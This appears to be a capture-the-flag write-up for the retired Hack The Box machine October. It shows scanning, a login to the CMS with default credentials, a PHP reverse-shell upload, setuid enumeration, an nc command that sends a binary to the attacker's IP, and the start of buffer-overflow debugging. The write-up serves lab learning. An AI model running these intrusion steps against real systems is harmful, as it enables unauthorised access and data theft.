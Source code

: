 # October

This is the write-up for the box October that got retired at the 1st July 2017.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.16    october.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/october.nmap 10.10.10.16
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the webpage we see a CMS called **October CMS** that seems to be up-to-date as the date on the lower bottom suggests and it uses the open-source forum software **Vanilla Forums**.

![October CMS](https://kyuu-ji.github.io/htb-write-up/october/october_webpage.png)

Lets look for hidden directories with _Gobuster_:
```markdown
gobuster dir -u http://10.10.10.16/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```markdown
/blog (Status: 200)
/forum (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/account (Status: 200)
/tests (Status: 301)
/storage (Status: 301)
/plugins (Status: 301)
/backend (Status: 302)
```

The findings with the Code 301 and 200 are uninteresting but the _/backend_ forwards us to _/backend/backend/auth/signin_ where we get a login page.
Trying the default credentials **admin / admin** we get are logged in.

Now we can upload any PHP Webshell (mine listens on my IP and port 9001:

![Uploading PHP Webshell](https://kyuu-ji.github.io/htb-write-up/october/october_webshell.png)

Browsing to the file starts a reverse shell on the box as the user www-data but we can read the user flag.

## Privilege Escalation

We search for files the got the setuid bit set:
```markdown
find / -perm -4000 2>/dev/null
```

One binary that sticks out is called **/usr/local/bin/ovrflw** and this is what we want to use. Lets upload it to our local machine to examine it.
```markdown
Local machine:
nc -l -p 999 > ovrflw

October box:
nc 10.10.14.8 999 < /usr/local/bin/ovrflw
```

Before examining binaries we should get a machine that is similar to the box to get the best results when doing Binary Analysis.
In this case the October box is **Ubuntu 14.04.5 LTS** and **32-bit** and we need a machine that meets these conditions.

### Binary Exploitation

When executing the _ovrflw_ binary it tells us that it wants an input string. Giving it any input it does nothing but giving it for example 200 times the character "A" it outputs a **Segmantation Fault**.

```markdown
./ovrflw `python -c 'print "A"*200'`
Segmentation fault
```

This is the proof that we need to exploit a _Buffer Overflow_ vulnerability.

When analyzing the libraries we get the following output:
```markdown
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw 
        linux-gate.so.1 =>  (0xb77c7000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb760d000)
        /lib/ld-linux.so.2 (0x80034000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw 
        linux-gate.so.1 =>  (0xb7795000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75db000)
        /lib/ld-linux.so.2 (0x800e9000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw 
        linux-gate.so.1 =>  (0xb77cc000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7612000)
        /lib/ld-linux.so.2 (0x8005d000)
```

I executed it several times to see if the addresses change and they do which means that _ASLR_ is active.

#### Debugging the binary

We will debug the binary with **GDB** with the _Peda_ extension installed.
```markdown
gdb ./ovrflw
```
```markdown
gdb-peda$ b main
Breakpoint 1 at 0x8048480
```

![Checksec](https://kyuu-ji.github.io/htb-write-up/october/october_gdb_1.png)

As we can see with `checksec` the **NX (No eXecute)** is enabled which is **Data Execution Prevention (DEP)** so we can't execute shellcode and jump to it.

![Running the binary](https://kyuu-ji.github.io/htb-write-up/october/october_gdb_2.png)

![Continuation](https://kyuu-ji.github.io/htb-write-up/october/october_gdb_3.png)

The program crashes as intended at 0x41414141 which means it crashed at the 4th "A".




